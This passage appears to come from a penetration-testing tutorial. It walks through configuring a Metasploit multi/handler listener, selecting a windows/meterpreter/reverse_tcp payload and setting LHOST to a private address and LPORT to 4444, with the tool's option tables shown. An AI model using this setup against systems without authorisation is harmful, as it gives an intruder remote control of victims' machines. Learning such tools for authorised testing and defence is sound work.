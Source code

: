 ```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

#### Select the payload

`set PAYLOAD windows/meterpreter/reverse_tcp`

#### Set the options for payload

`options` 

```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

`set LHOST 192.168.8.147`

`set LPORT 4444`

`options`
